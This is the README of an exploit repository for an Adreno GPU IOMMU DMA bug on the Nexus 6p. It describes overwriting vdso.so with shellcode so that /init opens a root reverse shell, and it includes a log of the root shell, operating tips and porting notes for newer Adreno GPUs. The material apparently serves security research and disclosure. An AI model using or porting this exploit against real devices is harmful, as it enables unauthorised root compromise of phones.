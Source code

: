 # ADRENO GPU IOMMU DMA EXPLOIT

Tested under Nexus 6p (google/angler/angler:6.0.1/MMB29M/2431559:user/release-keys)

# About the bug

Discussed in 2016 via [Blackhat EU](https://www.blackhat.com/docs/eu-16/materials/eu-16-Taft-GPU-Security-Exposed.pdf)

# About the exploit

With iommu dma writes, vdso.so is overwritten with shellcode.

So after /init executes __kernel_clock_gettime, the shellcode will get executed.

/init process then connect back with a root shell.

# Logs
```
Reverse shell target: 127.0.0.1:4919
shellcode patch done
hook patch done
Waiting for reverse connect shell...
TERMINAL>>>
id
uid=0(root) gid=0(root) groups=0(root) context=u:r:init:s0
```

# Tips

Delete /data/local/tmp/x if any before the exploit.

If the waiting time is too long, try open "Time and Date" options inside the settings of your phone.

# Porting to other devices

Check the verison of adreno, currently it is built for 4xx.

For 5xx and above:
 - use cp_type7_packet instead of cp_type3_packet
 - use IOCTL_KGSL_GPU_COMMAND instead of IOCTL_KGSL_RINGBUFFER_ISSUEIBCMDS